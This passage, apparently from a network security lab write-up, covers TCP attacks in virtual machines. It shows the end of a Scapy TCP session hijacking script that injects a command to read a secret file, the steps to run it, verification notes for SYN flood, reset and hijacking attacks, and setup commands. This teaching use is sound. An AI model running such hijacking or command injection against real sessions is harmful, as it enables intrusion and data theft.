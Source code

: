 ```python
 
packet = ip_layer / tcp_layer / cmd
 
send(packet, verbose=0)
print("Injected command to read secret.txt.")
```
 
**Make it executable**:
```bash
chmod +x tcp_hijack.py
```
 
---
 
## 4.4 Run the Hijacking Attack
 
1. On the **Attacker VM**:
   ```bash
   sudo ./tcp_hijack.py
   ```
2. On the **Client VM**, watch the Telnet session. You should see the contents of `/home/seed/secret.txt` appear there (since you spoofed the client, the server responds back to the real Telnet).
 
> **Take Screenshot #10**: The Telnet session on the Client VM showing the file’s content.
 
---
 
# 5. Verification and Conclusions
 
1. **SYN Flood**: Confirmed by seeing many `SYN_RECV` entries and blocked Telnet connections.  
2. **TCP Reset**: Confirmed by the Client’s Telnet session immediately terminating upon receiving the forged RST.  
3. **TCP Hijacking**: Confirmed by forcing the Server to display the secret file in the Client’s Telnet session.
 
---
 
# 6. Final Summary of Commands & Code
 
Below is a concise list of **all** commands and file contents for reference:
 
---
 
### 6.1 Installation Commands
 
```bash
# Server VM:
sudo apt-get update
sudo apt-get install xinetd telnetd
sudo service xinetd restart
 
# Client VM:
sudo apt-get update
sudo apt-get install telnet
 
# Attacker VM:
sudo apt-get update
sudo apt-get install netwox python-scapy tcpdump wireshark
```
 
---